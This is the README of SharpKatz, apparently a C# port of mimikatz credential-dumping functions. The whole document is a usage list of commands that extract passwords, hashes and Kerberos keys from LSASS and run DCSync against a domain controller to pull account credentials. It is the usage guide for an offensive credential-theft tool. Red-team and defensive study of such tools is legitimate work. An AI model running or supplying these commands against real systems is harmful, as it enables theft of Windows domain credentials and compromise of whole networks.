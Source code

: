 # SharpKatz
Porting of mimikatz sekurlsa::logonpasswords,  sekurlsa::ekeys and lsadump::dcsync

**Usage**

Ekeys

```SharpKatz.exe --Command ekeys```

Msv

```SharpKatz.exe --Command msv```

Kerberos

```SharpKatz.exe --Command kerberos```

Tspkg

```SharpKatz.exe --Command tspkg```

Credman

```SharpKatz.exe --Command credman```

Wdigest

```SharpKatz.exe --Command wdigest```

Logonpasswords

```SharpKatz.exe --Command logonpasswords```

DCSync

```SharpKatz.exe --Command dcsync --User user --Domain userdomain --DomainController dc```<br>
```SharpKatz.exe --Command dcsync --Guid guid --Domain userdomain --DomainController dc```<br>
```SharpKatz.exe --Command dcsync --Domain userdomain --DomainController dc```<br>
